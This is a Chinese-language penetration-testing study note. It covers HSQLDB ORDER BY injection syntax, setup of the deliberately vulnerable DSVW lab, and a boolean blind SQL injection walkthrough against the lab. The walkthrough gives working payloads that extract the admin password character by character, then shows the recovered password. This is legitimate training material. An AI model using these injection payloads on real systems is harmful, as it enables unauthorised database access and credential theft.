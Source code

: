 ``````
------------------------------------------------------------------------------------
 
SELECT ...
FROM tableList
[WHERE Expression]
[ORDER BY orderExpression [, ...]]
 
orderExpression:
{ columnNr | columnAlias | selectExpression }
    [ASC | DESC]
 
selectExpression:
{ Expression | COUNT(*) | {
    COUNT | MIN | MAX | SUM | AVG | SOME | EVERY |
    VAR_POP | VAR_SAMP | STDDEV_POP | STDDEV_SAMP
} ([ALL | DISTINCT][2]] Expression) } [[AS] label]
 
Based on HSQLDB
---------------------------------------------------------------------------------------
 
select * from users order by (case when (true) then lastname else firstname)
```

## 1x20 DSVW 


### 1x21 DSVW 简介
Damn Small Vulnerable Web (DSVW) 是使用 Python 语言开发的 Web应用漏洞 的演练系统。其系统只有一个 python 的脚本文件组成, 当中涵盖了 26 种 Web应用漏洞环境, 并且脚本代码行数控制在了100行以内, 当前版本v0.1m。需要python (2.6.x 或 2.7)并且得安装lxml库

1x22 DSVW 下载

### 1x22 DSVW 安装
安装python-lxml，再下载DSVW
```
apt-get install python-lxml
git clone https://github.com/stamparm/DSVW.git
```
直接运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190527122236280.png)![在这里插入图片描述](https://img-blog.csdnimg.cn/20190527122253950.png)
如果出现ip无法访问的情况改一下代码即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190527122505965.png)

### 1x23 Blind SQL Injection (*boolean*)

![1559800554388](assets/1559800554388.png)

说明存在盲注

```
?id=2%20AND%201=1 正常显示
?id=2%20AND%201=2 显示不正常
```

构造语句进行盲注，发现不能使用mid只能使用substr。。

```
2 and mid((select password from users where name='admin'),1,1)='7' 不能正常显示
2 and substr((select password from users where name='admin'),1,1)='7'  能正常显示
http://192.168.123.25:65412/?id=2%20and%20substr((select%20password%20from%20users%20where%20name=%27admin%27),2,1)=%27e%27
密码第一位7第二位e
通过之前做的python脚本跑出来密码是7en8aiDoh!
``````